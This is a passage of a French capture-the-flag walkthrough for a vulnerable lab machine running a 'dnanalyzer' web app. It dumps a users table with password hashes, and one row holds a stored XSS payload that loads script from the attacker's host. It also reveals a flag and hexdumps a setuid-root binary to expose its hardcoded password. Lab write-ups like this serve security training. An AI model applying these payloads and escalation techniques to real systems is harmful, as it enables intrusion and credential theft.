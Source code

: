 Tout est stocké dans une base sqlite3 :

```shellsession
www-data@alphonse:/var/www/html/dnanalyzer$ sqlite3 users.sqlite3 
SQLite version 3.27.2 2019-02-25 16:06:06
Enter ".help" for usage hints.
sqlite> .tables
Users
sqlite> .schema Users 
CREATE TABLE Users (id INTEGER PRIMARY KEY AUTOINCREMENT, username nvarchar, password nvarchar, dna_string nvarchar, dna_result nvarchar);
sqlite> select * from Users;
5|Alphonse|$2y$10$R6Y.DdYH5BUhbtUf1LOQ1OxAAxlRlrUbXg0z.tZtXnQxML7BiFN4e|GATC|Superb
6|Kevin|$2y$10$qqh98ui/i.DOW5pDCXRJJedNnYOwk8TttCEc5TQB35q.8N.4U8jfO|TCAG|Weak
40||$2y$10$ph0nscggdbMy82KLyxfv1.szMoWpSl3m7usR166TKfcB4sW56FfWm||
41||$2y$10$mPKMdYV77kglkqFfdbGhYe5817Jk3gDQiNDG/jsx9LM7FpSXKXJuC||
42|devloop|$2y$10$CpVpMf..X7EGn941Y2MGcexFKeATqOgMxOn5rtur36pWdERq0RmVG|1|Superb
43|zozo2|$2y$10$cA1pP8gSFcq9WU5XevCMjOzK1q9PEG1Mv6BaKZGD26dver24L5Ozi|<script src="http://192.168.56.1/test2.js"></script>|
```

J'ai tenté de donner ces hashs à *JohnTheRipper* mais ils semblent trop forts pour être cassés.

J'ai trouvé différents fichiers dans le dossier personnel de `Alphonse` :

```
-rw-r--r--  1 alphonse alphonse   12 Sep  1  2019 flag.txt
-rwxr-xr-x  1 alphonse alphonse   21 Sep 10  2019 lock.sh
-rw-r--r--  1 alphonse alphonse   65 Aug 30  2019 todo.txt
```

On a visiblement affaire à un scientifique fou ([Timsit avait raison](https://www.youtube.com/watch?v=mHl--iqe4xw)) :

```
* Create monkey with four asses
* Create monkey with seven asses
```

On obtient aussi notre premier flag : `dmx2urv87f2`

Le script `lock.sh` s'assure uniquement que la session graphique de l'utilisateur se vérouille :

```bash
sleep 1
dm-tool lock
```

Dans le dossier `Documents` de l'utilisateur je trouve un binaire setuid root :

```
-rwsr-xr-x  1 root     root      17K Sep  3  2019 rootme
```

Un petit hexdump s'impose :

```
00002000  01 00 02 00 2e 2f 72 6f  6f 74 6d 65 20 3c 70 61  |...../rootme <pa|
00002010  73 73 77 6f 72 64 3e 00  61 4e 68 67 4b 69 34 78  |ssword>.aNhgKi4x|
00002020  75 4f 00 48 65 72 65 20  79 6f 75 20 67 6f 3a 00  |uO.Here you go:.|
00002030  62 61 73 68 00 2f 62 69  6e 2f 73 68 00 57 72 6f  |bash./bin/sh.Wro|
00002040  6e 67 20 70 61 73 73 77  6f 72 64 00 01 1b 03 3b  |ng password....;|
```
